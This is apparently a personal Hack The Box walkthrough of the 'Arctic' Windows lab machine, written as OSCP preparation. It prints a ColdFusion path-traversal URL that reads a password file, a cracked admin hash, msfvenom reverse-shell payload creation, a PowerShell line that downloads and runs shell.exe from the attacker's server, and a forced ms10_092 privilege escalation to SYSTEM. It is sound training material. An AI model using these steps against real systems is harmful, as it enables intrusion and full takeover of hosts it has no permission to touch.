**Start 17:19 20-08-2024**

---
```
10.10.10.11
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -Pn 10.10.10.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 16:22 IST
Nmap scan report for 10.10.10.11
Host is up (0.090s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -Pn -T5 -vvvv -p- 10.10.10.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 16:21 IST
Nmap scan report for 10.10.10.11
Host is up, received user-set (0.089s latency).
Scanned at 2024-08-20 16:22:00 IST for 244s
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON  VERSION
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 244.15 seconds
```

There is a `web app development platform` used on port `8500/tcp`.  While I waited for the through scan to return results I started checking out what I could find.

### 8500/TCP - FMTP

After I headed to the site I found the following page:



This was what I was greeted with upon entering the website. I went to `/CFIDE/administrator` and found the following:



I then chose to look up exploits regarding this application and found a `directory traversal vulnerability` which was under `CVE-2010-2861`:



I chose to copy this line and copy it over to the url:

```
administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

This gave me the following output:



### Crackstation
I took the above hash and put it into [Crackstation](https://crackstation.net/) which quickly decrypted the hash

```
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```

I got this output:



```
happyday
```

We can now go ahead and login using this password.



## Remote Code Execution
I found nothing useful here so instead I looked up a `RCE` script in order to a `webshell` on the server and gain `Remote Code Execution`.
To achieve this I will use the following exploit:



I looked through the script, and before executing it I need to change this part:





Now that I've downloaded it and changed it to the correct `lhost & rhost` I will run it using `python 50057.py` 

```bash
Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49524


Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

We gained a `shell` as `tolis`. Now that we're in we can go into capturing the flags.

## Flags

### user.txt
I changed into `tolis`'s `Desktop` directory and got the flag:

```powershell
C:\Users\tolis\Desktop>type user.txt    
type user.txt
b5e766e0d2efcbb0eab8628dca4b9d9e
```

## Privilege Escalation
in order to escalate our privileges we can run the following commands to get more info on the `OS`

```powershell
Get-HotFix 

# This one returned nothing, meaning there have not been any hotfixes made for this version
```

And

```powershell
C:\Users\tolis\Desktop>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          22/8/2024, 2:18:35 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.060 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.241 MB
Virtual Memory: In Use:    1.044 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11

C:\Users\tolis\Desktop>cd \Users\Administrator\Desktop
cd \Users\Administrator\Desktop

C:\Users\tolis\Desktop>
```

We see that it's a `Windows Server 2008 version 6.1`.  Since there have not been any patches and the machine being a fresh install gives us the possibility to apply some exploits.

For this I found the following `CVE`:



To exploit this we'll create a `msfvenom` script and use a `multi/handler` in `msfconsole` to create a `root shell` on the target system. It looks as follows:

```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4445 -f raw -o shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes
Saved as: shell.exe
```

Now we'll go ahead and boot up `metasploit`

```bash
msfconsole

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4445
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.8:4445
```

And now we'll start a `python server` to upload the payload to the host:

```bash
python3 -m http.server
```

Lastly we'll have to run the following script on the `reverse shell` we got earlier:

```powershell
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.8:8000/shell.exe', 'shell.exe')"
```

Now I just had to wait for the shell to get uploaded to the server. 

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.11 - - [20/Aug/2024 18:15:57] "GET /shell.exe HTTP/1.1" 200 -
```

Once I had confirmation that the script was successfully uploaded, I could now run it on the target machine:

```powershell
.\shell.exe
```

Right after in my `msfconsole` terminal I saw the following pop up:

```bash
[*] Started reverse TCP handler on 10.10.14.8:4445 
[*] Sending stage (176198 bytes) to 10.10.10.11
[*] Meterpreter session 1 opened (10.10.14.8:4445 -> 10.10.10.11:49664) at 2024-08-20 18:16:59 +0100

meterpreter > getuid
Server username: ARCTIC\tolis
```

Now that I got a `meterpreter` session as `tolis`, I background it and use the `local_exploit_suggester` module in order to find vulnerabilities. 
I set the `session to 1` and run the exploit. After a while the vectors pop up, and as the box is quite old I chose to use `exploit/windows/local/ms10_092_schelevator`. I configured it again to my needs:

```bash
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms10_092_schelevator) > set LHOST tun0
LHOST => 10.10.14.8
msf6 exploit(windows/local/ms10_092_schelevator) > set LPORT 4446
LPORT => 4446
msf6 exploit(windows/local/ms10_092_schelevator) > 
```

Before I can run the exploit I need to `migrate to another process which is running under x64`. 

```bash
msf6 exploit(windows/local/ms10_092_schelevator) > sessions 1
[*] Starting interaction with 1...

meterpreter > ps

1132  472   jrunsvc.exe  x64   0        ARCTIC\tolis  C:\ColdFusion8\runtime\b
                                                       in\jrunsvc.exe

meterpreter > migrate 1132
[*] Migrating from 3356 to 1132...
[*] Migration completed successfully.
```

I ran into an error so I had to do the following:

```bash
msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.8:4446 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. Windows Server 2008 R2 (6.1 Build 7600). is not vulnerable "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ms10_092_schelevator) > set ForceExploit true
ForceExploit => true

# I had to set it to `true` since the payload was failing after the detection

msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.8:4446 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Windows Server 2008 R2 (6.1 Build 7600). is not vulnerable ForceExploit is enabled, proceeding with exploitation.
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\LsSgZxileSy.exe
[*] Creating task: G27LSugVKdpJ
[*] Reading the task file contents from C:\Windows\system32\tasks\G27LSugVKdpJ...
[*] Original CRC32: 0x76705db5
[*] Final CRC32: 0x76705db5
[*] Writing our modified content back...
[*] Validating task: G27LSugVKdpJ
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "G27LSugVKdpJ" have been changed.
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "G27LSugVKdpJ" have been changed.
[*] Executing the task...
[*] Sending stage (176198 bytes) to 10.10.10.11
[*] Meterpreter session 2 opened (10.10.14.8:4446 -> 10.10.10.11:49711) at 2024-08-20 18:28:23 +0100
[*] Deleting task G27LSugVKdpJ...

meterpreter > 
```

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### root.txt

Now I went ahead and used `cat` to get the flag

```BASH
meterpreter > cat "C:\Users\Administrator\Desktop\root.txt"
d426a5f078581e5980680e73b56558b6
```




---

**Finished 19:37 20-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
